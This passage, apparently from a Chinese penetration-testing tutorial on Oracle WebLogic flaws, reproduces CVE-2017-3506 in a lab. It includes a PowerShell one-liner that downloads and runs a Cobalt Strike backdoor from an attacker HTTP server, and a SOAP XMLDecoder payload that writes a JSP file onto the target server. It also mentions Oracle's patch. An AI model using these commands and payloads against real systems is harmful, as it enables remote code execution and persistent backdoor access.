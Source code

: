 cs 生成后门木马

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDXoaOiaMmKicibrkvZ6Kmuv05duyQ19ZL7YibdRz5ZxIhPJSGNIDic2RCOwg/640?wx_fmt=png)image-20210810105923024

放在 kali 上，开启简易的 http 服务

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDzq3VDYzSbjrAapG8t1BicEwGhiateibKJ9GibvJhByv1GDEyypevkYlAVA/640?wx_fmt=png)image-20210810110037377

powershell 上线 cs：

```
powershell -Command (new-object System.Net.WebClient).DownloadFile('http://192.168.10.65/zcc.exe','zcc.exe');start-process zcc.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDXgmEY6ibwtF9vADpRvrbV2vicMP7JpMjibPhNzyIyD06kYlBbdXiahrdOQ/640?wx_fmt=png)image-20210810111100065![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDbl4jEEpXDiakDrjVOPah0GgAz0JmJut3ia1mU9WFbIiaeTtvtA7I5ARjg/640?wx_fmt=png)image-20210810110916447

成功上线 cs

##### 安全防护

前往 Oracle 官网下载 10 月份所提供的安全补丁：

http://www.oracle.com/technetwork/security-advisory/cpuoct2017-3236626.html

#### 2.XMLDecoder 反序列化漏洞 CVE-2017-3506

##### 漏洞简介

cve-2017-10271 与 3506 他们的漏洞原理是一样的, 只不过 10271 绕过了 3506 的补丁，CVE-2017-3506 的补丁加了验证函数，验证 Payload 中的节点是否存在 object Tag。

```
private void validate(InputStream is){ WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory(); try { SAXParser parser =factory.newSAXParser(); parser.parse(is, newDefaultHandler() { public void startElement(String uri, StringlocalName, String qName, Attributes attributes)throws SAXException { if(qName.equalsIgnoreCase("object")) { throw new IllegalStateException("Invalid context type: object"); } } }); } catch(ParserConfigurationException var5) { throw new IllegalStateException("Parser Exception", var5); } catch (SAXExceptionvar6) { throw new IllegalStateException("Parser Exception", var6); } catch (IOExceptionvar7) { throw new IllegalStateException("Parser Exception", var7); } }
```

##### 影响版本

```
10.3.6.0
12.1.3.0
12.2.1.0
12.2.1.1 
12.2.1.2
```

##### 漏洞复现

利用的 poc:

```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header> <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> <java> <object class="java.io.PrintWriter"> <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/zcc3.jsp</string> <void method="println"> <string> <![CDATA[ <% out.print("zcc1 hello"); %> ]]> </string> </void> <void method="close"/> </object> </java> </work:WorkContext> </soapenv:Header> <soapenv:Body/></soapenv:Envelope>
```
